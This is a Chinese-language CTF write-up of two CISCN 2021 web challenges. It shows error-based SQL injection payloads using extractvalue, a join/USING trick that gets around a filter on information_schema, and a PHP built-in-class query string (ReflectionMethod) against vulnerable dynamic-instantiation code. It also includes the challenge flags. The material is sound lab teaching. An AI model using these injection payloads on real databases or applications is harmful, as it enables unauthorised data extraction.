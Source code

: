 ```yaml
---
title: CISCN线上赛库存
date: 2021-08-18 17:21:24
categories: ['CTF']
tags: ['web','sql注入','php原生类']
---
```


# easy_sql

在用户名处，尝试sql注入，加上单引号报错，测试闭合，随便添加几个符号在password的报错附近中注意到了是**括号单引号闭合**

> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1') LIMIT 0,1' at line 1

过滤的字符有union，所以尝试报错注入，查询版本号。

```
admin') and (extractvalue(1,concat(0x7e,(select version()),0x7e)))#
```

接下来想要通过**information_schema**库查字段，但是发现被过滤了，所以猜表名和字段名，尝试出了flag表和表中的一个字段id，但是在id字段中只查询出了一个值：1，使用sqlmap跑也没跑出来。

最后参考了网上的一篇文章：[mysql 注入 information_schema_绕过IDS过滤information_schema继续注入](https://blog.csdn.net/weixin_35867608/article/details/113937118)，模仿文章构造payload

```
admin') and (extractvalue(1,concat(0x7e,(select * from (select * from flag a join flag b USING (id))c),0x7e)))#
```

回显为：Duplicate column name 'no'，一开始以为是报了个错，但是根据文章使用using继续把查到的no字段加上去，发现还有其他字段

```
Duplicate column name '28d9f90a-4120-4ee8-9079-4e7613699510'
```

直接得到一个假的flag，真的还在flag表中，查询flag表中的改字段，报错注入长度有限制，所以加个substr一段一段截就出来了

```
admin') and (extractvalue(1,concat(0x7e,substr((select `28d9f90a-4120-4ee8-9079-4e7613699510` from `flag`),1,30),0x7e)))#
```

flag：CISCN{SWAqt-siWro-Wi7jV-FTdRm-9iOkG-}

# easy_source

使用目录扫描，扫描到了`.index.php.swo`

```
本题目没有其他代码了噢，就只有这一个文件，虽然你看到的不完全，但是你觉得我会把flag藏在哪里呢，仔细想想文件里面还有什么？
<?php
class User
{
    private static $c = 0;

    function a()
    {
        return ++self::$c;
    }

    function b()
    {
        return ++self::$c;
    }

    function c()
    {
        return ++self::$c;
    }

    function d()
    {
        return ++self::$c;
    }

    function e()
    {
        return ++self::$c;
    }

    function f()
    {
        return ++self::$c;
    }

    function g()
    {
        return ++self::$c;
    }

    function h()
    {
        return ++self::$c;
    }

    function i()
    {
        return ++self::$c;
    }

    function j()
    {
        return ++self::$c;
    }

    function k()
    {
        return ++self::$c;
    }

    function l()
    {
        return ++self::$c;
    }

    function m()
    {
        return ++self::$c;
    }

    function n()
    {
        return ++self::$c;
    }

    function o()
    {
        return ++self::$c;
    }

    function p()
    {
        return ++self::$c;
    }

    function q()
    {
        return ++self::$c;
    }

    function r()
    {
        return ++self::$c;
    }

    function s()
    {
        return ++self::$c;
    }

    function t()
    {
        return ++self::$c;
    }
    
}

$rc=$_GET["rc"];
$rb=$_GET["rb"];
$ra=$_GET["ra"];
$rd=$_GET["rd"];
$method= new $rc($ra, $rb);
var_dump($method->$rd());
```

看最后的参数列表，使用参数创建对象，并且创建对象的初始化参数需要有两个`$ra`、`$rb`

，源码虽然给出了`User`类，但是不知道有什么其他的方法，这时候想到了可能使用PHP的原生类。

根据提示

> 虽然你看到的不完全，但是你觉得我会把flag藏在哪里呢，仔细想想文件里面还有什么？

应该想到看不完全可能是在代码注释中，百度获取类中的代码注释，可以得到一个`ReflectionMethod`类，并且`ReflectionMethod`类中刚好有一个`getDocComment` 方法可以获得注释：

> 简介：**ReflectionMethod** 类报告了一个方法的有关信息。类报告了一个方法的有关信息
>
> ReflectionFunctionAbstract::getDocComment — 获取注释内容

源码中初始化创建对象为`new $rc($ra, $rb)`，传递了两个参数，`ReflectionMethod`类的初始化魔术方法也提供了两个参数

> public ReflectionMethod::__construct ( [mixed](https://www.php.net/manual/zh/language.types.declarations.php#language.types.declarations.mixed) `$class` , string `$name` )

所以构造第一个参数是User，第二个参数为源码里的那些方法名，一个一个尝试，在q方法中找到了flag的注释

payload

```
?rc=ReflectionMethod&ra=User&rb=q&rd=getDocComment
```

结果

```
你能发现我吗string(152) "/** * Increment counter * * @final * @static * @access publicCISCN{uLG8v-wGDDi-PfF4M-Pmc2U-uBqB2-} * @return int */"
```



题外话：在尝试过程中还发现了另一个类`ReflectionClass`

> 简介：**ReflectionClass** 类报告了一个类的有关信息。

和上面的那个类对比，两个类研究的对象不一样**ReflectionMethod**研究的是类中的方法，**ReflectionClass** 研究的是类。

这个类中也有一个获得注释的函数ReflectionClass::getDocComment，但是其获得的是文档注释，即文件开头的/**/中内容，但是本题的注释是在函数里的。

